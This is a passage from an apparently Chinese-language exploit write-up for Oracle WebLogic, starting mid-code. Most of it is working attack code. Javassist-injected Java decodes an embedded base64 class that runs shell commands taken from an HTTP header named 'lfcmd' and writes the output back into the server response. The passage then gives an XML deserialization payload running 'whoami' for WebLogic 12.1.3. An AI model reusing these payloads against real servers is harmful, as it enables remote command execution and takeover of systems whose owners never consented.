bWU7AQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAh0b1N0cmluZwAhABkAGgAAAAAAAgABABsAHAABAB0AAAAdAAEAAQAAAAUqtwABsQAAAAEAHgAAAAYAAQAAAAMACQAfACAAAgAdAAABCwAFAAgAAACTEgK4AANMK8YAKyu2AAQSBbYABpkAH7gABwa9AAhZAxIJU1kEEgpTWQUqU7YAC02nABy4AAcGvQAIWQMSDFNZBBINU1kFKlO2AAtNLLYADk67AA9ZLbcAEDoEuwARWRkEtwASOgUBOgYSEzoHGQW2ABRZOgbGABy7ABVZtwAWGQe2ABcZBrYAF7YAGDoHp//fGQewAAAAAgAeAAAAMgAMAAAABQAGAAcAFgAJADIADABLAA4AUAAPAFoAEABlABEAaAASAGwAEwB3ABUAkAAXACEAAAAuAAT8ADIHACL8ABgHACP/ACAACAcAIgcAIgcAIwcAJAcAJQcAJgcAIgcAIgAAIwAnAAAABAABACgAAQApAAAAAgAq\";"
                + "sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();"
                + "byte[] bt = decoder.decodeBuffer(R);"
                + "org.mozilla.classfile.DefiningClassLoader cls = new org.mozilla.classfile.DefiningClassLoader();"
                + "Class cl = cls.defineClass(\"ResultBaseExec\",bt);"
                + "java.lang.reflect.Method m = cl.getMethod(\"exec\",new Class[]{String.class});"
                + "Object object = m.invoke(cl.newInstance(),new Object[]{ua});"
                + "weblogic.servlet.internal.ServletResponseImpl response = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getResponse();\n"
                + "weblogic.servlet.internal.ServletOutputStreamImpl outputStream = response.getServletOutputStream();\n"
                + "outputStream.writeStream(new weblogic.xml.util.StringInputStream(object.toString()));\n"
                + "outputStream.flush();\n"
                + "response.getWriter().write(\"\");"
                + "");
```

然后运行JDK7u21,编译生成Byte[], 执行。


#### Weblogic 12.1.3 回显构造.

将
```
clazz.makeClassInitializer()
        .insertAfter(""
                + "String ua = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getHeader(\"lfcmd\");\n"
                + "String R = \"yv66vgAAADIAXAoAGgArCAAsCgAtAC4KAAgALwgAMAoACAAxCgAyADMHADQIADUIADYKADIANwgAOAgAOQoAOgA7BwA8CgAPAD0HAD4KABEAPwgAQAoAEQBBBwBCCgAVACsKABUAQwoAFQBEBwBFBwBGAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHADQHAEcHAEgHADwHAD4BAApFeGNlcHRpb25zBwBJAQAKU291cmNlRmlsZQEAE1Jlc3VsdEJhc2VFeGVjLmphdmEMABsAHAEAB29zLm5hbWUHAEoMAEsAIAwATABNAQADd2luDABOAE8HAFAMAFEAUgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMAB8AUwEABy9iaW4vc2gBAAItYwcARwwAVABVAQAZamF2YS9pby9JbnB1dFN0cmVhbVJlYWRlcgwAGwBWAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgwAGwBXAQAADABYAE0BABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAWQBaDABbAE0BAA5SZXN1bHRCYXNlRXhlYwEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAh0b1N0cmluZwAhABkAGgAAAAAAAgABABsAHAABAB0AAAAdAAEAAQAAAAUqtwABsQAAAAEAHgAAAAYAAQAAAAMACQAfACAAAgAdAAABCwAFAAgAAACTEgK4AANMK8YAKyu2AAQSBbYABpkAH7gABwa9AAhZAxIJU1kEEgpTWQUqU7YAC02nABy4AAcGvQAIWQMSDFNZBBINU1kFKlO2AAtNLLYADk67AA9ZLbcAEDoEuwARWRkEtwASOgUBOgYSEzoHGQW2ABRZOgbGABy7ABVZtwAWGQe2ABcZBrYAF7YAGDoHp//fGQewAAAAAgAeAAAAMgAMAAAABQAGAAcAFgAJADIADABLAA4AUAAPAFoAEABlABEAaAASAGwAEwB3ABUAkAAXACEAAAAuAAT8ADIHACL8ABgHACP/ACAACAcAIgcAIgcAIwcAJAcAJQcAJgcAIgcAIgAAIwAnAAAABAABACgAAQApAAAAAgAq\";"
                + "sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();"
                + "byte[] bt = decoder.decodeBuffer(R);"
                + "org.mozilla.classfile.DefiningClassLoader cls = new org.mozilla.classfile.DefiningClassLoader();"
                + "Class cl = cls.defineClass(\"ResultBaseExec\",bt);"
                + "java.lang.reflect.Method m = cl.getMethod(\"exec\",new Class[]{String.class});"
                + "Object object = m.invoke(cl.newInstance(),new Object[]{ua});"
                + "weblogic.servlet.internal.ServletResponseImpl response = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getResponse();\n"
                + "weblogic.servlet.internal.ServletOutputStreamImpl outputStream = response.getServletOutputStream();\n"
                + "outputStream.writeStream(new weblogic.xml.util.StringInputStream(object.toString()));\n"
                + "outputStream.flush();\n"
                + "response.getWriter().write(\"\");"
                + "");
```

转换成XMl格式，参考lufei给出的，稍微改一下。
``` xml
<class><string>org.slf4j.ext.EventData</string>
<void>
<string>
	<java>
		<void class="sun.misc.BASE64Decoder">
			<void method="decodeBuffer" id="byte_arr">	<string>yv66vgAAADIAXAoAGgArCAAsCgAtAC4KAAgALwgAMAoACAAxCgAyADMHADQIADUIADYKADIANwgAOAgAOQoAOgA7BwA8CgAPAD0HAD4KABEAPwgAQAoAEQBBBwBCCgAVACsKABUAQwoAFQBEBwBFBwBGAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHADQHAEcHAEgHADwHAD4BAApFeGNlcHRpb25zBwBJAQAKU291cmNlRmlsZQEAE1Jlc3VsdEJhc2VFeGVjLmphdmEMABsAHAEAB29zLm5hbWUHAEoMAEsAIAwATABNAQADd2luDABOAE8HAFAMAFEAUgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMAB8AUwEABy9iaW4vc2gBAAItYwcARwwAVABVAQAZamF2YS9pby9JbnB1dFN0cmVhbVJlYWRlcgwAGwBWAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgwAGwBXAQAADABYAE0BABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAWQBaDABbAE0BAA5SZXN1bHRCYXNlRXhlYwEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAh0b1N0cmluZwAhABkAGgAAAAAAAgABABsAHAABAB0AAAAdAAEAAQAAAAUqtwABsQAAAAEAHgAAAAYAAQAAAAMACQAfACAAAgAdAAABCwAFAAgAAACTEgK4AANMK8YAKyu2AAQSBbYABpkAH7gABwa9AAhZAxIJU1kEEgpTWQUqU7YAC02nABy4AAcGvQAIWQMSDFNZBBINU1kFKlO2AAtNLLYADk67AA9ZLbcAEDoEuwARWRkEtwASOgUBOgYSEzoHGQW2ABRZOgbGABy7ABVZtwAWGQe2ABcZBrYAF7YAGDoHp//fGQewAAAAAgAeAAAAMgAMAAAABQAGAAcAFgAJADIADABLAA4AUAAPAFoAEABlABEAaAASAGwAEwB3ABUAkAAXACEAAAAuAAT8ADIHACL8ABgHACP/ACAACAcAIgcAIgcAIwcAJAcAJQcAJgcAIgcAIgAAIwAnAAAABAABACgAAQApAAAAAgAq</string>
			</void>
		</void>
		<void class="org.mozilla.classfile.DefiningClassLoader">
			<void method="defineClass">
				<string>ResultBaseExec</string>
				<object idref="byte_arr"></object>
				<void method="newInstance">
					<void method="exec" id="result">
						<string>whoami</string>
					</void>
				</void>
			</void>
		</void>

		<void class="java.lang.Thread" method="currentThread">
			<void method="getCurrentWork" id="current_work">
				<void method="getClass">
					<void method="getDeclaredField">
						<string>connectionHandler</string>
							<void method="setAccessible"><boolean>true</boolean></void>
						<void method="get">
							<object idref="current_work"></object>
							<void method="getServletRequest">
								<void method="getResponse">
									<void method="getServletOutputStream">
										<void method="writeStream">
											<object class="weblogic.xml.util.StringInputStream"><object idref="result"></object></object>
											</void>
										<void method="flush"/>
										</void>
								<void method="getWriter"><void method="write"><string></string></void></void>
								</void>
							</void>
						</void>
					</void>
				</void>
			</void>
		</void>
	</java>
</string>
</void>
</class>
```

执行:
